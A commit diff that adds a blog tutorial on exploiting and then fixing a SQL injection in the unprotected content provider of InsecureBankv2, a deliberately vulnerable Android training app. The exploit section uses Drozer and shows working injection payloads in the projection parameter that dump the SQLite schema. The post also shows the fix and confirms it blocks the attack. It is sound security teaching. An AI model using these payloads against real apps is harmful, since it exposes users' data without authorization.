

Before and after one commit to oldbam/oldbam.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 300 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
adding post on content providers

````diff
--- a/_posts/2017-1-1-learning-android-security.md
+++ b/_posts/2017-1-1-learning-android-security.md
@@ -8,7 +8,7 @@ Recently, I decided to learn about Android application security. Since good lear
 
 * [Identifying and Fixing Vulnerable Android Activities](/android/security/android-vulnerabilities-insecurebank-activities)
 * [Identifying and Fixing Vulnerable Android Broadcast Receivers](/android/security/android-vulnerabilities-insecurebank-broadcast-receivers)
-
+* [Identifying and Fixing Vulnerable Android Content Providers Receivers](/android/security/android-vulnerabilities-insecurebank-content-providers)
 When evaluating applications, I was using several tools:
 
 * [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) makes it easy to analyze attack surface by showing exported Android components: activities, services, content providers, and broadcast receivers.
--- /dev/null
+++ b/_posts/2017-1-14-android-vulnerabilities-content-providers.md
@@ -0,0 +1,156 @@
+---
+layout: default
+title: Identifying and Fixing Security Vulnerabilities of Android Applications - Content Providers
+permalink: /android/security/:title
+---
+
+### Prerequisites
+
+* [InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2) installed on Android device or emulator
+* [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) agent installed on Android device or emulator
+* Drozer console runs and connected to drozer agent
+
+### Getting information
+
+Let's use [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) to determine content providers that InsecureBank application exports:
+
+```
+dz> run app.provider.info -a com.android.insecurebankv2
+Package: com.android.insecurebankv2
+  Authority: com.android.insecurebankv2.TrackUserContentProvider
+    Read Permission: null
+    Write Permission: null
+    Content Provider: com.android.insecurebankv2.TrackUserContentProvider
+    Multiprocess Allowed: False
+    Grant Uri Permissions: False
+```
+
+As seen from the above output, there is one content provider which is not protected by a permission. This means that any application on the same device can read and write to that provider. Let's determine what data does the given provider deal with. Usually, content providers use either SQLite databases or files as an underneath data storage with which they operate. In case of an SQLite database, content providers may be vulnerable to SQL injection vulnerabilities. The next step going forward is to determine which URIs does the provider deal with. We can do this by inspecting a reversed engineered source code of an application, or by using a dedicated drozer command (in a real world scenario, we would probably do both just to be on the safe side):
+
+```
+dz> run app.provider.finduri com.android.insecurebankv2
+Scanning com.android.insecurebankv2...
+content://com.android.insecurebankv2.TrackUserContentProvider/
+content://com.google.android.gms.games
+content://com.android.insecurebankv2.TrackUserContentProvider
+content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
+content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
+content://com.google.android.gms.games/
+```
+
+Next, we need to find if drozer found actual URIs. So, let's try queyring those URIs that deal with application:
+
+```
+dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/
+Unknown URI content://com.android.insecurebankv2.TrackUserContentProvider/
+dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
+| id | name   |
+| 1  | dinesh |
+```
+
+We did not have luck with the first one, but we were able to successfully retrieve the content of `content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`, which, apparently, shows us users that have used an application.
+
+### Exploit
+
+Let's determine now if that content provider is vulnerable to SQL injection. As specified in Android [content providers documentation](https://developer.android.com/guide/topics/providers/content-provider-basics.html#Query), when constructing a query, projection defines which columns should be returned. This is where we can try to inject control character `'` to determine whether provider is vulnerable:
+
+```
+dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "'"
+unrecognized token: "' FROM names ORDER BY name" (code 1): , while compiling: SELECT ' FROM names ORDER BY name
+```
+
+As you can see, `'` token was used when constructing our query and that resulted in a SQL error. This means that our input was passed to SQL unsanitized. Now, let's try to determine if we can actually determine the structure of a database by constructing more elaborate injection:
+
+```
+dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "* from sqlite_master --"
+| type  | name             | tbl_name         | rootpage | sql                                                                            |
+| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                    |
+| table | names            | names            | 4        | CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL) |
+| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                         |
+```
+
+In the above attack we used string `* from sqlite_master --` effectively turning the query that was executed into `SELECT * from sqlite_master`, which just gave us all tables in the underlying database.
+
+As a side note, we will mention that drozer even has a dedicated command to execute similar type of an attack:
+
+```
+dz> run scanner.provider.sqltables -a content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
+Accessible tables for uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers:
+  android_metadata
+  names
+  sqlite_sequence
+```
+
+### Fix
+
+Proper design should always start with a discussion whether there is a legitimate need to export a given content provider, and then, what would be proper permissions to protect it (Hint: Use _signature_ permission to prevent other apps not developed by you from communicating with your app). But we already spent some time with the topic of permissions in one of the previous posts, so, let's try to see how to avoid SQL injection per se.
+
+When discussing the topic of SQL injection, it is almost customary to introduce a vulnerability by doing string concatenation. However, when we open a code of `TrackUserContentProvider`, we will see that this is not the case:
+
+```
+public Cursor query(Uri uri, String[] projection, String selection,	String[] selectionArgs, String sortOrder) {
+		SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
+		qb.setTables(TABLE_NAME);
+
+		switch (uriMatcher.match(uri)) {
+			case uriCode:
+				qb.setProjectionMap(values);
+				break;
+			default:
+				throw new IllegalArgumentException("Unknown URI " + uri);
+		}
+		if (sortOrder == null || sortOrder == "") {
+			sortOrder = name;
+		}
+		Cursor c = qb.query(db, projection, selection, selectionArgs, null, null, sortOrder);
+
+		// ...
+	}
+```
+
+The developer used a class `SQLiteQueryBuilder` from class library, and called `query` method on it passing `projection` parameter received from the caller. So, let's look into the [source code of this class](https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/database/sqlite/SQLiteQueryBuilder.java). At the time when I checked (January 2017), the `query` method had the following comment which indicated about protection against SQL injection in `selection` parameter:
+
+```
+// Validate the user-supplied selection to detect syntactic anomalies
+// in the selection string that could indicate a SQL injection attempt.
+```
+
+So, there is a protection against injection in `selection` parameter. But what about `projection` parameter?! Turns out, more work is needed from the consumer of that API.
+
+There seems to be two ways how to deal with it. The first way that comes into mind is to do a whitelisting of fields that we allow to query. After all, `projection` parameter defines fields that may exist in the database, so, we can check whether the parameter contains legitimate fields before continuing with the query. Here is an example code one might add to the beginning of `query` method:
+
+```
+HashSet<String> validProjections = new HashSet<>(Arrays.asList("id", "name"));
+for (String p : projection) {
+    if (!validProjections.contains(p)) throw new IllegalArgumentException("Unknown projection: " + projection);
+}
+```
+
+For our fix, we will choose another way by using `setProjectionMap` method from `SQLiteQueryBuilder` class. As stated in the [documentation](https://developer.android.com/reference/android/database/sqlite/SQLiteQueryBuilder.html#setProjectionMap(java.util.Map%3Cjava.lang.String,%20java.lang.String%3E)),
+
+> If a projection map is set it must contain all column names the user may request, even if the key and value are the same.
+
+`TrackUserContentProvider` already has a static `values` HashMap that is being used in the following method call:
+
+```
+qb.setProjectionMap(values);
+```
+
+The problem is that `values` HashMap is never populated. Let's add to it two possible columns that can exist in table `names`: `id` and `name` (Note, that since we don't specify a mapping between user provided names and database names, we use the same strings for keys and values in the HashMap):
+
+```
+values = new HashMap<>();
+values.put("id", "id");
+values.put("name", "name");
+```
+
+When we recompile our application and send it to the device, we will see that SQL injection does not work anymore:
+
+```
+dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "'"
+Invalid column '
+```
+
+### Summary
+
+In this post we looked at exploiting SQL injection in unsecured content provider. We also showed how to fix this vulnerability either by introducing whitelisting or using a method from the framework.
````
